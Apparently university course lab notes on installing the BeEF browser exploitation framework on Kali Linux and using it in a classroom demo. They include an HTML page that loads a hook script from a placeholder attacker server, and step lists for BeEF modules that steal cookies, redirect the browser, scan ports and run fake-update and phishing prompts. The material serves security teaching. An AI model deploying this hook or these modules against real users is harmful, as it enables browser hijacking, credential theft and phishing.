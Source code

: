 <h5><em>ver: Aug-2022</em></h5>

---

<h2>Browser Exploitation Framework (BeEF)</h2>

Refer to https://beefproject.com/

<h4>Setup BeEF</h4>

1. Install BeEF on Kali Linux (Not a default tool)
2. Setup BeEF configuration file (set id and password)
3. Open BeEF
4. Open a web browser and go to "http://localhost:3000/ui/authentication".
5. Enter the id and passwd to the browser

```sh
sudo apt install beef-xss
# set id/passwd. Default valeus does not work.
sudo nano /etc/beef-xss/./config.yaml
cd /usr/share/beef-xss
./beef

```

---

<h4>Exploitation Example</h4>

1. Identify attacker's ip-address

```sh
ifconfig
```

2. Identify victiom's ip-address

```sh
ipconfig
ping attack-ip-address
```

3. Create a compromised web page by hooking the BeEF script

```html
<html lang="en">
    <head>
        <title>CS 435 Demo Page (BeEF)</title>
    </head>
    <body>
        <script src="http://attacker-server-ip-address:3000/hook.js"></script>
        <h2>This is CS 435 Demo Page</h2>
        <h4>School of Arts and Sciences</h4>
        <h4>Carolina University</h4>
        <h3>THIS IS A MALICIOUS WEB-PAGE</h3>
        <a href="http://cnn.com"> LINK to "cnn.com" </a>
    </body>
</html>
```

4. A victim's web-browser access to the compromised web-server. (Attacker's server)

5. Verify hook-ups on BeEF

   5-1. Current Browser -> Details
   
   5-2. Current Browser -> Network

6. Control the victim's web-browser.

    6-1. Current Browser -> Command -> Browser -> Get Cookie -> check Command results
    
    6-2. Current Browser -> Command -> Browser -> Redirect Browser (iFrame) -> set New Favicon & Redirect URL (Monitor the url window)
    
    6-3. Current Browser -> Command -> Network -> Port Scanner -> set ip-address for scanning
    
    6-4. Current Browser -> Command -> Social Engineering -> Fake Flash Update -> set Image & Custom Payload URL
    
    6-5. Current Browser -> Command -> Social Engineering -> Google Phishing -> set XSS hook URI -> check Command results
    
    6-6. Current Browser -> Command -> Social Engineering -> Pretty Theft -> set Dialog Type & Custom Logo -> check Command results
